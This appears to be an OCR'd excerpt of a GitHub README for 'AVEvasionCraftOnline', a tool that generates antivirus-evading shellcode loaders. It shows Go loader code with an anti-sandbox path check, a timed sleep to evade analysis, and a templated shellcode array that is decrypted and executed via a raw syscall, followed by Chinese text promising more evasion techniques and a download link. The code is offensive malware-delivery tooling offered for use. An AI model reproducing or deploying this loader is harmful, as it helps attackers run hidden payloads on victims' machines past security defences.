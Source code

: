 ```plain
    syscall.SyscallN(Ptr1, 0, 0, 0, 0)
}


func Sleeeep()  {
    res := 1
    for i := 0; i < 5; i++ {
        number := rand.Intn(900) + 100
        res *= number
    }
    time.Sleep(10 * time.Second)
}

func main() {

    args := os.Args[0]
    if (args[10] == 92 && (args[0] == 99 || args[0] == 67)) {
        os.Exit(0)
    }

    Sleeeep()

    ciphertext := []byte{{{Shellcode}}}

    byteData := DecryptData(ciphertext)

    Ldr1(byteData)
}
```

现有的代码已经完成基本操作，只需要维护模板即可。  
TODO

-   更多对抗方式持续爆肝中

下载地址 [https://github.com/yutianqaq/AVEvasionCraftOnline](https://github.com/yutianqaq/AVEvasionCraftOnline)
